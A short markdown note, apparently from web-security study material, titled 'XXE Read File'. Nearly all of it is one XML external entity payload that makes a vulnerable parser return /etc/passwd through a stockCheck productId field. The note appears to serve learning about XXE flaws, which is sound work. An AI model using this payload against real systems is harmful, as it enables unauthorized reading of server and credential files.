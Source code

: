 # XXE Read File 

### check which tag to show file content
<img width="1190" height="470" alt="image" src="https://github.com/user-attachments/assets/0e641009-dce1-4366-99de-87f7aa83516b" />

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

